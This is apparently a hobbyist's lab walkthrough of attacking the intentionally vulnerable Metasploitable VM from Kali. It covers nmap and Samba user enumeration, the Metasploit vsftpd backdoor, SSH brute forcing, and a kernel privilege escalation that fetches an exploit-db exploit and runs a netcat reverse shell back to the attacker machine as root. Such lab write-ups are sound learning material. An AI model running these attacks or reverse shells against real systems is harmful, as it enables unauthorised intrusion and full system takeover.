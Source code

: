 # 'Sploiting the 'Sploitable

I've always had a casual interest in exploring penetration testing. Over the last week I've taken to seeing what I could learn through my own exploration!

A few assumptions are made with this write-up.
1. Kali Linux and Metasploitable are both being run through Oracle VM VirtualBox.
2. Metasploitable's IP is `192.168.56.101` and Kali's IP is `192.168.56.102`
3. An additional network adapter is enabled on Kali to provide updates and downloads
4. This is personal hardware/software and no local laws are being broken.

Obviously, keep metasploitable and kali on a host-only virtual network. Don't let script kiddies have access to an intentionally exploitable machine!!

Enable a second network interface and update Kali. There's nothing wrong with skipping this step if you're staying on a host-only network, but it's good to be up to date. Once it's updated, be sure to switch your network adapter back to host-only mode.

## Let's get started!

Before starting anything, we want to find the IP of the machine we want to pwn. Let's use netdiscover

`netdiscover -r 192.168.56.100`
Now we've got a few IP addresses to scan.
Pinging `192.168.56.100` returns nothing, whereas `192.168.56.101` pings back! That gives us, with just 3 possible addresses to choose from, a good idea of our target's address.

Time to get more information on our target. We can use nmap to scan for TCP ports and the services they use.

`nmap -sV -O 192.168.56.101 -p1-65535`
- -sV to check open ports and version information
- -O to try to guess the operating system

![nmap result](/img/metasploitable/metaspoitable1.png)
Lots of open ports! This is obviously on purpose. This gives us great information-- we can see what software and version number applies to each port.

## Enumeration for fun and profit
Kali has a wonderful script called enum4linux. This asks the remote Samba service for a list of users.

`enum4linux -U 192.168.56.101`
- -U displays the users

With some grepping and cutting, we can easily isolate a list of users for use later. `enum4linux -U 192.168.56.101 | grep 'user:' | cut -d'[' -f2 | cut -d']' -f1 > users.txt` Keep this file around for later!

## There's a few different ways you can get a shell. Here are two:

### vsftpd (port 21)
Boot up the metasploit console (`msfconsole`). With this, we can search for and execute various exploits. Let's look up vsftpd version 2.3.4

`search vsftpd 2.3.4`
![Search vsftpd](/img/metasploitable/metasploitable2.png)
Aha! An excellent backdoor exploit. We're given the namespace to the exploit, which we'll use to execute it.

`use exploit/unix/ftp/vsftpd_234_backdoor` (metasploit supports tab completion!)

Next, we'll set RHOST to our target's IP address. `set rhost 192.168.56.101`

and we'll set our RPORT to 21 to match the port that vsftpd is running on. `set rport 21`

Finally, we execute our attack with a simple `run`.

Press Enter, and you'll have gained access to a remote shell!
![remote shell](/img/metasploitable/metasploitable3.png)

### ssh (port 22)
We can employ a similar method try and gain access to port 22. With metasploit still open, we'll use a common ssh login check scanner (https://www.offensive-security.com/metasploit-unleashed/scanner-ssh-auxiliary-modules/).

`use auxillary/scanner/ssh/ssh_login`

Again, set your rhosts and rport to the corresponding information. (`set rhosts 192.168.56.101` and `set rport 22`)

We'll be using our previous wordlist to attempt to brute force our way in. `set user_file users.txt`.

Additionally, we'll want to `set user_as_pass true`. This might save us some time if our target decided to use the same password as their username.

In order to watch the brute force in action, we'll need to `set verbose true`.

Now a quick `run` should enumerate through the users file, trying each username as its own password.
![trial](/img/metasploitable/metasploitable4.png)
Not bad!

## Now what? Escalation!!

With the newfound limited user accounts that we now have access to, our next step is to elevate our user level. The whole point was to get root access, right?

What can we find by exploring the `user` user? Starting off with `uname -a` will give us details about the system. Through this, we can pick out the kernel version- 2.6.14. Let's dive into some CVEs! Some quick searching will give us [CVE-2009-1185](http://www.exploit-db.com/exploits/8572/). This exploits a Netlink in order to execute a payload from /tmp/run AS ROOT!!. Netlink is a way to pass data back and forth between the kernel and user-space.
https://linux-hacking-guide.blogspot.com/2015/05/metasploitable-2-privilege-escalation.html

We'll need to enable an external internet connection in order to download the exploit. While logged into the `user` account, `wget https://www.exploit-db.com/download/8572.c` (as always, audit all code you download!). Next, we'll need to compile our C code with `gcc -o exploit 8572.c`. This will create an executable named `exploit` that we can pass an argument to.

Once the exploit is compiled, we'll need to find the netlink process ID to pass as the argument to our script. We'll find this with `cat /proc/net/netlink`. Several results will display, but we want the one with an above-zero PID. In my case this is `2329`

Now we'll move on to the command we want to execute as root. With `vim /tmp/run` we can enter a command to execute as root. For this, netcat will execute a shell that we'll catch later. In /tmp/run, we'll enter the following. I'm choosing 1337 as my port because `1337 5P34K` is always cool.

```
#!/bin/bash
/bin/netcat -e /bin/bash 192.168.56.102 1337
```

Now, in another terminal local to our Kali environment, we'll need to catch netcat and listen on port 1337. To do this we use `nc -l -p 1337`.

Returning to our ssh'd Metasploitable terminal, we're finally going to execute our exploit! `./exploit 1337`

It wont look like anything is happening, but if we run `id` through our Kali terminal, we'll see that we're now `uid=0(root) gid=0(root)`! Just to make sure we're not seeing our Kali id, we'll check `uname -a` again.

![payload executed](/img/metasploitable/metasploitable5.png)
I hope you learned as much as I did! Of course, there are plenty of other ways to exploit vulnerable machines, and it's been an incredibly fun journey trying to figure out this much. I'm excited to learn more!
